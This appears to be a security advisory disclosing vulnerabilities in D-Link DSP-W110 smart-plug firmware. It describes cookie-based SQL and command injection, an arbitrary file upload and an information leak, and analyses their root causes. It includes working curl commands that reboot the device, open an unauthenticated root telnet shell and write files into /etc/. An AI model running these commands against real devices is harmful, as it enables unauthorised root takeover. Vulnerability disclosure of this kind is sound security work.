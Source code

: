 ## D-Link DSP-W110 - multiple vulnerabilities

##### Discovered by:
* Peter Adkins &lt;peter.adkins@kernelpicnic.net&gt;

##### Access:
* Local network; unauthenticated access

##### Tracking and identifiers:
* CVE - None allocated.

##### Platforms / Firmware confirmed affected:
* D-Link DSP-W110 (Rev A) - v1.05b01

##### Notes:
* There appears to be a number of references to both 'miiiCasa' as well as 'fitivision' throughout the firmware, which may indicate that these vulnerabilities could be present in other devices not listed in this document.

### Arbitrary command execution / SQL Injection

Patches made to `lighttpd` by the vendor exposes the device to both SQL injection, and more interestingly, arbitrary code execution. This is due to the improper sanitization of data supplied by a client.

As the `lighttpd` service provides endpoints to be accessed without authentication, it provides a vector for an attacker to execute arbitrary commands on the device as the root user via HTTP call without authentication credentials.

The root cause of this issue is that the contents of an HTTP Cookie, with any name, is passed verbatim to a `sprintf()` call in order to form an SQL query used to validate existing client sessions. By simply performing an HTTP request against the device with a correctly formatted cookie set, arbitrary SQL can be executed against the internal SQLite database.

Further to this issue, as this SQL query is passed to a `popen()` call in order to execute the query, arbitrary commands are also able to be run on the device as the root user.

This said, due to the length of the allocated buffer, the value of the cookie cannot exceed 19 characters. However, as below, 19 characters is exactly enough to pop a shell on the device.

```bash
# Reboot the device.
curl \
 --cookie "terribleness='\`reboot\`" \
 192.168.1.3

# Spawn a root shell (telnet)
curl \
 --cookie "terribleness=\`telnetd -l/bin/sh\`" \
 192.168.1.3
```

###  Arbitrary file upload

Patches made to `lighttpd` by the vendor exposes the device to arbitrary file upload attacks.

Unfortunately, the only 'filtering' on this resources appears to be a `sprintf()` call which statically prefixes a submitted 'dev' argument with '/www'. However, if a HTTP request is performed without a 'dev' argument at all, the `sprintf()` call is never reached, and a fully-qualified path can be provided in the 'path' parameter - bypassing the upload path restriction.

As a result of the above, this resource can be used to upload files to any location on the filesystem of devices running vulnerable firmware versions without authentication.

```bash
# Upload arbitrary files to the device.
echo 'Some String' > test.txt
curl \
 -X POST \
 -i \
 -F name=@test.txt \
 --http1.0 \
 '192.168.1.3/web_cgi.cgi?&request=UploadFile&path=/etc/'
```

### Diagnostic Information

Patches made to `lighttpd` by the vendor of this device allows an attacker to query the device, without authentication, for the following information:

 * Current WLAN SSIDs
 * Current WLAN channels
 * LAN and WAN MAC addressing
 * Current firmware version information
 * Hardware version information

Although not sensitive information, it may allow for identification of devices running vulnerable firmware versions.

```bash
# Information query.
curl \
 192.168.1.3/mplist.txt
```

### Analysis :: Arbitrary command injection

There's really nothing much to say here, the reason this vulnerability exists is trivial.

While processing the HTTP headers for an incoming request, the patched `lighttpd` copies any cookies into `hnap_cookie` inside of `request.c` (line 845).

![request-http_parse_request](./images/request_http_parse_request.png)

This `hnap_cookie` variable pops up again inside of `mod_hnap.c` where the value is parsed out (line 30)...

![mod_hnap-getHNAPCookie](./images/request_getHNAPCookie.png)

...munged into an SQL query via `sprintf()` (line 56) and thrown at `popen()` (line 64).

![mod_hnap-getQueryTime](./images/mod_hnap_getQueryTime.png)

As a result, we can pop a root shell and snatch the configuration database with just a couple of HTTP calls:

![ruby-PoC](./images/ruby_PoC.png)